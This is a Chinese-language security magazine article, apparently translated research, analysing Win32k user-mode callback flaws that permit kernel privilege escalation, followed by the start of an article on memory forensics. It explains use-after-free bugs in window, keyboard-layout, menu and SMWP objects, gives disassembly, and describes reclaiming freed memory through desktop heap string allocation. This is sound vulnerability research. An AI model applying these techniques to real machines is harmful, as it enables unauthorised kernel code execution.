kd> dt nt!_KERNEL_STACK_CONTROL -b
   +0x000 PreviousTrapFrame       : Ptr32
   +0x000 PreviousExceptionList   : Ptr32
   +0x004 StackControlFlags       : Uint4B
   +0x004 PreviousLargeStack      : Pos 0, 1 Bit
   +0x004 PreviousSegmentsPresent : Pos 1, 1 Bit
   +0x004 ExpandedCalloutStack    : Pos 2, 1 Bit
   +0x008 Previous                : _KERNEL_STACK_SEGMENT
   +0x000 StackBase               : Uint4B
   +0x004 StackLimit              : Uint4B
   +0x008 KernelStack             : Uint4B
   +0x00c InitialStack            : Uint4B
   +0x010 ActualLimit             : Uint4B
```

一旦用户模式回调完成后，系统调用 `NtCallbackReturn` 函数，修正堆栈后跳回 KeUserModeCallback，完成调用并回到内核继续执行。该函数将回调函数结果拷贝到原内核栈，并根据 `KERNEL_STACK_CONTROL` 结构中保存的信息恢复原陷阱栈（PrevTrapFrame）以及内核栈。在跳回前系统会清除内核调用栈。总体调用过程为：`nt!KeUserModeCallback -> nt!KiCallUserMode -> nt!KiServiceExit -> ntdll!KiUserCallbackDispatcher -> 回调函数 -> int 2B -> nt!KiCallbackReturn -> nt!KeUserModeCallback`，即 ring0->ring3->ring0 的过程。在线程栈准备完毕后，使用 KiServiceExit 返回 ring3，由 KiUserCallbackDispatcher 从 PEB 中取出 KernelCallbackTable 基址，再以 ApiNumber 为索引调用对应回调函数；结束后通过 int 2B 触发 nt!KiCallbackReturn 再次进入内核，修正堆栈后返回 KeUserModeCallback。

由于递归或嵌套回调可能导致内核栈无限制增长，或者创建任意数量的栈，系统对每个运行线程使用线程对象结构中的 `KTHREAD->CallbackDepth` 跟踪回调深度。每次回调发生后，系统会更新该计数并在尝试创建新栈时检查阈值；`nt!KiMigrateToNewKernelStack` 会确保 CallbackDepth 不超过 `0xC000`，否则返回 `STATUS_STACK_OVERFLOW` 错误码。

## 2. 使用用户模式回调机制实施内核攻击

本小节我们将给出一些攻击手法，使得 hackers 可以借助用户模式回调机制实施特权提升攻击。在开始详细讨论每种攻击手法之前，首先分析一下用户模式回调函数机制是如何操纵用户关键段的。

### （1）Win32 命名规范

Windows 管理器使用关键段和全局锁机制管理重要的内部系统结构。用户模式回调机制允许应用程序挂起 GUI 子系统，且 Win32k 总是在回调机制进入到用户模式执行用户命令时离开关键段，此时 Win32k 可能正在执行其他任务。当回调函数返回时，即执行权返回到内核时，Win32k 会重新进入关键段。我们可以在任何一个调用 KeUserModeCallback 的函数中观察到此行为，如下代码所示：

```asm
call _UserSessionSwitchLeaveCrit@0
lea eax, [ebp+var_4]
push eax
lea eax, [ebp+var_8]
push eax
push 0
push 0
push 43h
call ds:__imp__KeUserModeCallback@20
call _UserEnterUserCritSec@0
```

从用户模式回调函数返回时，Win32k 必须确保相关的对象与数据结构还保存在例外状态中。在执行权限交给回调函数时，代码的执行已经脱离了关键段，此时用户模式代码可自由调用、修改一些对象的属性、重新分配数组空间等等。例如，回调函数可以调用 SetParent()，改变父类窗口指针。若系统在调用回调函数之前事先保存了父类窗口的索引指针，则系统返回到内核继续执行时，若内核没有进行一定的校验或执行对象锁，那么可能会带来一定的安全漏洞。

为了确保应用程序开发者不会利用此漏洞，Win32k 使用了自己特有的函数命名规范。如：函数的前缀命名为“xxx”或“zzz”完全依赖于系统是如何调用一个用户模式回调的。大多数情况下，使用“xxx”前缀的函数会在调用一个用户模式回调时离开关键段资源。然而，某些情形下，函数可能需要一套特殊的参数以便转入到回调函数真实被调用的路径分支上。这就是为何我们有时会看到不带前缀的函数调用 xxx 函数，因为它们提供给 xxx 函数的参数无法导致一个回调函数被真实调用。而一般情况下，前缀为“zzz”的函数总是调用异步或者延迟的回调函数。

典型的案例是一些窗口事件可能因为某种原因不需要及时处理，如定时器设置等。此时，Win32k 会调用 xxxFlushDeferredWindowEvents 函数刷新事件队列。但重要的是，调用 zzz 函数时，必须确保在调用 xxxWindowEvent 函数时，Win32k!gcwDeferWinEvent 变量不会空，否则回调函数会立即处理。

Win32k 的命名规范缺乏一致性。Win32k 内的一些函数虽然调用了回调函数，但并没有标记。具体原因不是太清楚，但一个可能的解释是，随着时间的推移一些函数在命名规则上没有做更新。相应地，开发者可能会认为这类函数不会调用回调函数，故回避了一些必要的验证（如对象是否上锁、指针值校验等）。从 MS11-034 给出的安全补丁看，一些函数的命名已经做了更新处理，部分更新的函数如下：

| Windows 7 RTM | Windows 7 (MS11-034) |
|---|---|
| MNRecalcTabStrings | xxxMNRecalcTabStrings |
| FreeDDEHandle | xxxFreeDDEHandle |
| ClientFreeDDEHandle | xxxClientFreeDDEHandle |
| ClientGetDDEFlags | xxxClientGetDDEFlags |
| ClientGetDDEHookData | xxxClientGetDDEHookData |

### （2）用户对象锁

用户对象采用引用计数方式，以跟踪每个对象是否还在使用或者已经从内存中释放。在内核离开用户关键段区时，那些被视为有效的对象必须上锁。通常，系统中提供两种形式的锁：线程锁和任务锁。

- **线程锁**：线程锁主要用于某个函数内对某些对象或缓冲区资源的锁定。每个线程锁单元节点存放在线程锁（Win32k!_TL）结构中，此结构采用单链表形式组织，由线程信息结构体（THREADINFO.ptl）指向。线程锁队列节点的操作非常类似 FIFO 队列。Win32k 系统中，线程锁通常都是以内联函数方式实现。在 xxx 函数被调用时，可以通过内联指针方式增加引用；当给定的函数不再需要此对象或缓冲区时，它会调用 ThreadUnlock() 函数，从线程锁列表中移除锁节点。若事件调度时对象没有正常释放（如在处理用户模式回调时，进程意外结束），此时 Win32k 会操作线程锁链表，释放此线程使用的所有对象单元，即在 xxxDestroyThreadInfo 函数中调用 DestroyThreadsObjects 实现。Win32k 中的线程上锁与释放过程如下：

```asm
mov ecx, _gptiCurrent
add ecx, _tagTHREADINFO.ptl ; thread lock list
mov edx, [ecx]
mov [ebp+tl.next], edx
lea edx, [ebp+tl]
mov [ecx], edx ; push new entry on list
mov [ebp+tl.pobj], eax ; window object
inc [eax+tagWND.head.cLockObj]
```

```asm
push [ebp+arg_8]
push [ebp+arg_4]
push eax
call _xxxDragDetect@12    ; xxxDragDetect(x,x,x)
mov esi, eax
call _ThreadUnlock1@0     ; ThreadUnlock1()
```

- **任务锁**：此锁通常用于对某些用户对象的长期锁定。如在桌面系统内部创建一个新窗口，Win32k 会采用任务锁对 Windows 对象结构体的某个合适位置锁定此桌面对象。它并不像线程锁那样需要操作一个锁队列，任务锁单元仅仅是一些存放在内存中的指针（指向锁定的对象）。若某一指针占用了 Win32k 需要锁定某对象的位置，系统会在锁定此对象前释放已存在的任务锁单元，并用新产生的锁替换。句柄管理器为任务锁的锁定与释放提供了一些函数，如在锁定某对象时，Win32k 调用 HMAssignmentLock（Address, Object）函数分配锁并增加对象的引用计数，以及函数 HMAssignmentUnlock(Address) 释放对象的引用。尤其是，任务锁并不会像线程锁一样提供安全网。在回调机制中，若一个线程结束后，线程或用户对象的清理函数会各自独立负责释放这些引用。若此类操作失败，且对象的分配可重复在任意地址执行，则将导致内存泄露或引用计数溢出。

Windows 对象之 Use-After-Free 漏洞。对系统设置一个基于 CBT hook 钩子时，应用程序可接收到各种通知消息，如 Windows 窗口事件、键盘与鼠标输入事件以及消息队列事件等。如在一个新窗口创建之前，HCBT_CREATEWND 回调机制允许应用程序检查并修改正在使用的一些参数。其中，结构体 CBT_CREATEWND 可决定窗口大小和方向，允许应用程序通过此窗口的句柄值对 hwndInsertAfter 参数进行修改，以改变窗口在 Z 序列中的位置。在设置此句柄时，xxxCreateWindowEx 函数获取相应的对象指针，而后在将新窗口加入到 Z 序列链之后使用它。但是，当此函数未成功占有此指针时，攻击者可以在子序列回调时强迫 Win32k 在回调函数返回时操作已经释放的内存，来销毁由 hwndInsertAfter 参数提供的窗口。xxxCreateWindowEx 函数在调用 PWInsertAfter 函数、获取 Windows 对象指针（即 cbt.hwndInsertAfter 对应的窗口对象指针）后，会保存此指针在一个局部变量中，但并没有将其作为互斥资源保护，如图 1 所示。

```asm
.text:BF892EA1    push   [ebp+cbt.hwndInsertAfter]
.text:BF892EA4    call   _PWInsertAfter@4 ; PWInsertAfter(y)
.text:BF892EA9    mov    [ebp+pwndInsertAfter], eax ; window object
```

图 1 从 CBT 结构体中获取 Windows 对象

由于 xxxCreateWindowEx 函数并没有将对象指针通过“锁”进行保护，故攻击者可以在随后调用的钩子函数中通过调用 DestroyWindow 销毁 cbt.hwndInsertAfter 所指向的窗口，那么该窗口的窗口对象就会被销毁。此时函数 xxxCreateWindowEx 的局部变量保存的窗口对象指针，在调用 LinkWindow 时实际指向的是一块已经被释放的内存。那么在 LinkWindow 函数中就会触发 Use-After-Free 漏洞，此漏洞允许攻击者在内核上下文中执行任意代码。实际上，在调用 PWInsertAfter 和调用 LinkWindow 之间，xxxCreateWindowEx 还要为创建窗口进行很多其他操作，在此期间还会回调已经注册的其他类型用户模式钩子函数，如图 2 所示。

```asm
.text:BF893924    push   esi              ; parent window
.text:BF893925    push   [ebp+pwndInsertAfter]
.text:BF893928    push   ebx              ; new window
.text:BF893929    call   _LinkWindow@12   ; LinkWindow(x,x,x)
```

图 2 Z 序列链表添加

键盘布局对象之 Use-After-Free 漏洞。键盘布局对象用于对一个活动线程或进程设置键盘布局。在加载一个键盘布局时，应用程序会调用 LoadKeyboardLayout 函数，加载指定的键盘布局名称。其实 Windows 系统也提供了一个未文档化的函数 LoadKeyboardLayoutEx，此函数会调用 HKLtoPKL 将传入的键盘布局对象句柄 hKblayout 转换为对应的键盘布局对象指针。HKLtoPKL 函数会遍历活跃键盘布局链表（THREADINFO.spklActive），直到找到一个匹配的句柄值。此时 LoadKeyboardLayoutEx 会使用栈局部变量保存此对象指针值，如图 3 所示。

```asm
.text:BF8150C7    push   [ebp+hkl]
.text:BF8150CA    push   edi
.text:BF8150CB    call   _HKLtoPKL@8   ; get keyboard layout object
.text:BF8150D0    mov    alv, eax
.text:BF8150D2    mov    [ebp+pkl], ebx ; store pointer
```

图 3 将键盘句柄对象转换为指针

由于 LoadKeyboardLayoutEx 函数并没有通过“锁”保护对象指针，故攻击者可以在用户模式回调函数中卸载此句柄布局，即释放此对象指针。这种攻击方式是可能发生的，因为 LoadKeyboardLayoutEx 函数随后会调用 xxxClientGetCharsetInfo 函数来回调用户模式下的一个回调函数。若在回调函数中卸载了 hKblayout 对象，当 xxxLoadKeyboardLayoutEx 再次使用 [ebp+var_8] 地址下事先保存的指针时，引用的将会是一块已经被释放的内存，如图 4 所示。

```asm
.text:BFF153FC mov ebx, [ebp+pkl] ; KL object pointer
.text:BFF1541D mov eax, [edi+tagTHREADINFO.pti]
.text:BFF15423 mov [ebp+ti.next], eax
.text:BFF15426 lea eax, [ebp+ti]
.text:BFF15429 push ebx
...
```

图 4 用户模式回调完成后引用键盘布局对象指针

### （3）对象状态验证

为了跟踪对象的使用情况，Win32k 会使用标识位或者指针来关联用户对象。系统程序在使用用户对象时，总会校验这些对象的当前状态是否有效。然而，用户模式回调机制可以修改或更新对象属性，如改变窗口的父类、导致下拉菜单失效、终止 DDE 会话中的任一方等。应用程序若没有校验对象状态，则很可能导致 NULL 指针解引用错误及各种 use-after-free 漏洞发生。

DDE 会话状态漏洞。DDE 即动态数据交换协议，是一种十分古老的消息通信方式，即在两个应用程序之间通过共享内存的方式交换数据……为了配合会话双方的通信，会话对象结构体包含一个指向对方会话对象的指针。因此，若拥有会话对象的某一方线程被终止，显然对方的会话对象指针将被清除。

由于 DDE 会话在用户模式下存储数据，它们依赖用户模式回调机制在用户模式与内核模式之间进行数据的拷进拷出。在发送一个 DDE 会话消息时，Win32k 会调用 xxxCopyDdeIn 从用户模式将数据拷贝到内核模式；同样地，在接收一个 DDE 消息时，Win32k 会调用 xxxCopyDDEOut 函数将数据拷贝到用户模式。拷贝动作发生后，Win32k 会通知会话的一方可以分享此数据……由图 5 可知，xxxCopyDdeIn 函数会调用一个回调函数，但此函数在将会话对象指针传递给另一方时，却没有重新校验会话方的对象指针，这种方式很可能导致 NULL 指针解引用错误。

```asm
.text:BFF8F9A7 push eax
.text:BFF8F9A8 push dword ptr [edi]
.text:BFF8F9AA call _xxxCopyDdeIn@16
.text:BFF8F9AF mov ebx, eax
...
```

图 5 DDE 会话处理中缺乏对象指针校验

菜单状态处理漏洞。尽管菜单对象（tagMENU）本身比较简单，仅仅包含菜单项的相关信息，但菜单事件的响应却依赖很多复杂函数及结构体来实现。例如，应用程序可调用 TrackPopupMenuEx 函数创建一个弹出菜单窗口，此时菜单窗口可以利用系统定义的菜单窗口类过程（Win32k!xxxMenuWindowProc）来处理各种特定的菜单消息。特别是，系统为了跟踪菜单的使用情况，Win32k 会为每个当前活跃的菜单创建一个菜单状态结构（tagMENUSTATE）。

在处理各种菜单消息时，Win32k 在用户模式回调之后并不会校验菜单状态。特别地，通过发送 MN_ENDMENU 消息关闭一个菜单时，Win32k 在多数情况下并没有检验菜单状态是否活跃，或者相关结构体引用的对象指针是否非 NULL（如弹出菜单结构体 Win32k!tagPOPMENU）等。如图 6 所示，Win32k 调用 xxxHandleMenuMessages 消息尝试处理各种菜单消息。因为此函数可能会调用一个回调函数，随后的操作（如菜单状态指针的使用）可能会引发 Win32k 操作一块空内存。

```asm
push [esi+tagMENUSTATE.pGlobalPopupMenu]
or [esi+tagMENUSTATE.bf4], 200h
call _xxxHandleMenuMessages@12
and [esi+tagMENUSTATE.bf4], 0FFFFFFDFh ; <-- may have been freed
...
```

图 6 菜单状态处理引发的 Use-After-Free 漏洞

### （4）缓冲区重分配

许多用户对象都包含很多元素，采用数组或者缓冲区形式表达。数组中的每个元素新增与删除通常都需调整大小以节约内存。例如，分配一个新元素若其超出或低于数组已有的边界值，则需要重新分配一个合适大小的缓冲区。特别是，在用户模式回调期间，任何一个缓冲区在重分配或释放之后，在内核态都必须再次校验，如图 7 所示。任何一个函数在未对节点项进行校验时，都有可能导致空内存操作，引发攻击者控制指定指针实施内存污染攻击。



```asm
.text:BF89C77C    mov ebx, [esi+tagMENU.rgItems]
.text:BF89C77F    mov [ebp+cItems], eax
.text:BF89C782    cmp eax, edx
.text:BF89C784    jz short loc_BF89C7CC
```

菜单子项数组之 Use-After-Free 漏洞。为了定位弹出或下拉的每个菜单子项，菜单对象（Win32k!tagMENU）会定义一个指向菜单子项数组的指针。每个菜单子项（Win32k!tagITEM）会为自己定义一些属性，如菜单名、嵌入的图像、指向子菜单的指针等。菜单对象结构体中的 cItems 变量定义了菜单子项数组的元素个数，变量 cAlloced 定义了已分配缓冲区可容纳多少个菜单子项。菜单子项数组每增加或删除一个子项，Win32k 会调用 InsertMenuItem 函数或者 DeleteMenu 函数；若 cAlloced < cItems，Win32k 会尝试扩大缓冲区大小，如图 8 所示。

一旦 xxxSetMenuInfo 函数已经到达最深层次菜单子项，系统将会终止递归调用。此时函数很可能会调用一个用户回调函数 xxxMNUpdateShownMenu，故菜单子项数组就有可能会被更新，如扩大或删除数组中的某些子项等。然而，当 xxxMNUpdateShownMenu 函数处理完毕返回到递归调用处时，xxxSetMenuInfo 却并没有充分校验菜单子项数组缓冲区以及数组子项个数。若攻击者在用户模式回调处理过程中调用 InsertMenuItem 或 DeleteMenu 函数更改了菜单子项数组，此时下面部分代码中的 ebx 寄存器值就有可能指向已经释放的内存空间。而且，表达数组子项个数的 cItems 也可能发生改变，导致 xxxSetMenuInfo 函数操作一个超出缓冲区边界的 item 子项。



```asm
.text:BF89C786    add ebx, tagITEM.spSubMenu
.text:BF89C789    mov eax, [ebx] ; spSubMenu
.text:BF89C78B    dec [ebp+cItems]
.text:BF89C78E    cmp eax, edx
.text:BF89C790    jz short loc_BF89C7C4
...
.text:BF89C7B2    push edi
.text:BF89C7B3    push dword ptr [ebx]
.text:BF89C7B5    call _xxxSetMenuInfo@8 ; xxxSetMenuInfo(x,x)
.text:BF89C7BA    call _ThreadUnlock1@0 ; ThreadUnlock1()
.text:BF89C7BF    xor ecx, ecx
.text:BF89C7C1    inc ecx
.text:BF89C7C2    xor edx, edx
...
.text:BF89C7C4    add ebx, 6Ch ; next menu item
.text:BF89C7C7    cmp [ebp+cItems], edx ; more items?
.text:BF89C7CA    jnz short loc_BF89C789
```

Win32k 提供的一些函数在用户模式回调后，并没有验证子项数组缓冲区的合法性。实际上，当前并没有一种方式可“锁”住一个菜单子项（如用户对象），故任何一个有可能使用用户回调的函数都有必要重新校验菜单子项数组的合法性。若菜单子项数组缓冲区在用户模式回调机制下已经重新分配，此时随后的代码有可能会操作已释放的内存。

SetMenuInfo 函数允许应用程序为一个特定菜单设置多种属性。Win32k 在对每个菜单进行更新设置时，会调用 xxxSetMenuInfo 函数遍历数组中每个菜单子项，并深层次递归更新每个子项的子菜单设置。在递归更新菜单子项数组之前，xxxSetMenuInfo 函数会将菜单子项项数（cItems）和每个菜单子项的数组指针（rgItems）保存在局部变量/寄存器中，如下所示：

```asm
.text:BF89C779    mov eax, [esi+tagMENU.cItems]
```

为了解决菜单子项事件涉及的漏洞问题，Microsoft 在 Win32k 中引入一个新函数 MNGetpItemFromIndex，此函数以菜单对象指针以及菜单子项索引 Index 为输入参数，获取对应子项的属性信息。

SetWindowsPos 数组之 Use-After-Free 漏洞。Windows 允许应用程序对多个窗口进行批次更新，使用一个特殊的 SetWindowsPos 对象，即指向窗口位置结构体数组的指针。当应用程序调用 BeginDeferWindowPos() 函数时，系统会对 SWP 对象及窗口结构体数组进行初始化，并对数组元素个数（即窗口位置结构体）进行预分配；随后系统会调用 DeferWindowPos() 函数更新窗口位置，当请求更新的窗口位置索引项超出了预分配空间时……分配的项数时，Win32k 会用更多可用空间分配给窗口位置数组，如图 9 所示。



图 9　SMWP 数组重分配

当所有请求更新的窗口位置都处理完毕后，应用程序会调用 EndDeferWindowsPos（）函数更新窗口列表。在操作 SMWP 数组时，Win32k 并不总是在用户模式回调之后校验数组指针。调用 EndDeferWindowsPos 函数处理多窗口位置结构体时，Win32k 会调用 xxxCalcValidRects 函数，计算 SMWP 数组中每个被引用的窗口大小及位置，同时遍历每个窗口项，执行各项操作，如发送 WM_WINDOWPOSCHANGING 消息，通知每个位置正发生改变的窗口。此消息会触发用户模式回调，攻击者可以在同一个 SWP 对象上调用 DeferWindowsPos，促使 SMWP 数组重分配，如下所示：

```asm
.text:BF8A37B8        mov ebx, [esi+14h] ; SMWP array
.text:BF8A37BB        mov [ebp+var_20], 1
.text:BF8A37C2        mov [ebp+cItems], eax ; SMWP array count
.text:BF8A37C5        js loc_BF8A3DE3 ; exit if no entries
...
.text:BF8A3839        push ebx
.text:BF8A383A        push eax
.text:BF8A383B        push WM_WINDOWPOSCHANGING
.text:BF8A383D        push esi
.text:BF8A383E        call _xxxSendMessage@16 ; user-mode callback
.text:BF8A3843        mov eax, [ebx+4]
.text:BF8A3846        mov [ebx], edi ; window handle
...
.text:BF8A3DD7        add ebx, 60h ; get next entry
.text:BF8A3DDA        dec [ebp+cItems] ; decrement cItems
.text:BF8A3DDD        jns loc_BF8A37CB
```

若 xxxCalcValidRects 函数没有充分校验指针和数组大小边界，则当它将窗口句柄写回原缓冲区时，就有可能导致 use-after-free 漏洞。

## 3. Use-After-Free 漏洞利用

攻击者要在 Win32k 上实现 use-after-free 漏洞利用，需要对已经释放的内存进行重分配，并能控制其内存空间上的内容。因为用户对象及其相关数据结构都是以字符串方式存储的，故通过设置对象属性，完全控制最近存放在已释放内存空间中的内容并对其进行任意大小的分配是完全可能的。只要避免 WORD NULLs 发生（字符串的结束符），使用任意字节的组合都有可能操作内存中的对象与数据结构。如何在 desktop heap 上引发此漏洞，攻击者可借助 SetWindowTextW 函数对一个窗口的标题栏命名，迫使 desktop heap 分配任意大小的堆空间。类似地，调用 SetClassLongPtr 并指定 GCLP_MENUNAME 参数，以设置窗口类相关的菜单字符串名时，可触发任意大小的会话池分配。下面的代码显示了键盘布局对象上的 Use-After-Free 漏洞：

```text
eax=41414141 ebx=00000000 ecx=ffb137e0
edx=8e135f00 esi=fe74aa60 edi=fe964d60
eip=92d05f53 esp=807d28d4 ebp=807d28f0 iopl=0
nv up ei pl nz na pe cy
cs=0008 ss=0010 ds=0023 es=0023 fs=0030
gs=0000 efl=00010207
win32k!xxxSetPKLinThreads+0xa9:
92d05f53 89700c mov dword ptr [eax+0Ch], esi
ds:0023:4141414d=????????
kd> dt win32k!tagKL @edi -b
 +0x000 head    : _HEAD
 +0x000 h       : 0x41414141
 +0x004 cLockObj: 0x41414142
 +0x008 pklNext : 0x41414141
 +0x00c pklPrev : 0x41414141
```

由上面的代码可知，键盘布局对象已经被攻击者在 desktop heap 上恶意分配的字符串所覆盖。此时 Win32k 尝试将此键盘布局对象链接到键盘布局对象链表时，将会操作一个已释放的对象。显然，攻击者可以在被释放的位置安置一个恶意 Shellcode 地址。

## 4. 小结

本文描述了用户模式回调有可能引发的各种安全漏洞问题，并详细阐述了 Windows 管理器中的全局锁在用户模式回调机制中的瑕疵。尽管涉及到的各种由于用户模式回调机制下未充分校验对象指针等关键资源导致的漏洞已经基本解决，但这些问题的某些复杂性表明，更多的细微缺陷很可能依旧驻留在 Win32k 中。

前置知识：无

关键词：内存，缓存，内核



# 物理内存取证之文件与缓存分析

文/James Butler，Justin Murdock　译/小小杉

内存分析的两个主要对象是内核内存与用户级内存。在 Windows 环境下，内核内存主要包含设备驱动程序、NT 操作系统可执行程序以及硬件抽象层模块。大多数用户级内存则主要包含单个进程、进程地址空间中的文件（从磁盘空间加载到用户内存空间的代码、数据，如可执行文件 EXEs 以及动态链接库 DLLs）。内核内存中的大部分虚拟地址空间均独立于某特定的进程上下文，为全局地址，而其他虚拟地址空间则与某个特定进程相关，因此对内存进行提取分析是一件饶有兴趣的事。本文将重点分析单个进程地址空间上下文的用户级内存。通常情况下，攻击者主要针对 victim 的用户级内存，因为相对内核内存而言，在用户级内存空间下更容易写入或获取代码等内容。

尽管在用户级内存及进程重构的内存取证领域已经取得了一定的成就，但它们仍然有一定的改善空间。以前开发的取证工具主要集中在单个进程地址空间下的虚拟地址描述符（VADs）或虚拟内存区，而忽视了其他一些丰富的资源，如内存映像文件。这些工具使用虚拟地址描述符 VAD 有限的信息从内存中萃取文件，显然生成的文件必然不能准确地反映出先前其在磁盘上的完整内容。再次，操作系统输入/输出缓存（cache）也被大范围忽视了。本文将介绍一些方法，从内存中更准确地获取信息并萃取完整文件内容。

大多数内存取证工具（包含 Volatility 和 Memoryze）都使用 VAD 树遍历技术来查找加载到内存中的数据信息。在 Windows 中，进程由一个 EPROCESS 结构描述，此结构包含一个域 MM_AVL_TABLE VadRoot，即进程 VAD 的入口。内存管理器通过遍历 VAD 树以确定每个进程所占用的虚拟地址空间。这些结构体都可在内存中获取到，进而可确定每个运行进程所包含的信息。VAD 组成了一个 AVL 自平衡二叉树，树中的每一个节点代表一段虚拟地址空间。例如程序的代码段、数据段、堆段会各占用一个或多个 VAD 节点，由一个 MMVAD 结构完整描述。从 0x00000000 到 0x7FFFFFFF，总要有个数据结构描述程序的各个段对应哪段地址空间，VAD 则充当了此角色。

- Memoryze 工具无法获取到进程虚拟地址空间的首个 MB，即（0x00000000 - 0x000FFFFF）。
- Vaddump 命令无法对已命名的内存区进行重命名。
- Memoryze 工具使用 NOPs（即 0x90）替换不存在于进程地址空间的页，而 Vaddump 使用 0x0。
- Vaddump 命令不会分析已命名或者大小为 0 的区域。

## 现有的物理内存取证技术

